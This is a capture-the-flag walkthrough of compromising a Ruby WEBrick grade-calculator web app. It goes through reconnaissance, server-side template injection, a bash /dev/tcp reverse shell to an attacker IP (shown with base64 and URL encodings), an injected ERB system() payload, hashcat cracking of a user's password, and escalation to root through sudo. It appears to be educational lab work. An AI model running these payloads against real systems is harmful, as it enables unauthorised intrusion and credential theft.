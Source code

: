 Startign with nmap 

![](../../attachments/Pasted%20image%2020240428172105.png)

![](../../attachments/Pasted%20image%2020240428172547.png)

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 
![](../../attachments/Pasted%20image%2020240428172356.png)

![](../../attachments/Pasted%20image%2020240428172442.png)

![](../../attachments/Pasted%20image%2020240428172517.png)
we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding
![](../../attachments/Pasted%20image%2020240428172611.png)

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 
![](../../attachments/Pasted%20image%2020240428172643.png)

but there is no information about vulnerbilities
![](../../attachments/Pasted%20image%2020240428172712.png)


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![](../../attachments/Pasted%20image%2020240428172824.png)

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![](../../attachments/Pasted%20image%2020240428172841.png)

to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

after adding single '  i got this result 
![](../../attachments/Pasted%20image%2020240428173049.png)

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![](../../attachments/Pasted%20image%2020240428173117.png)


let's try some payloads and see what happens
![](../../attachments/Pasted%20image%2020240428173215.png)

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding
![](../../attachments/Pasted%20image%2020240428173655.png)

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![](../../attachments/Pasted%20image%2020240428173754.png)

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![](../../attachments/Pasted%20image%2020240428173826.png)

we got some details

using revshells.com website i created a python payload and gave me shell access

![](../../attachments/Pasted%20image%2020240428173912.png)

We can generate payload manually on our terminal refer to [[#Generate Payload]]

![](../../attachments/Pasted%20image%2020240428174443.png)

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![](../../attachments/Pasted%20image%2020240428174552.png)

![](../../attachments/Pasted%20image%2020240428174705.png)

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![](../../attachments/Pasted%20image%2020240428174743.png)
refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![](../../attachments/Pasted%20image%2020240428174954.png)


using sudo bash we switched to root user and got root flag
![](../../attachments/Pasted%20image%2020240428175215.png)


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
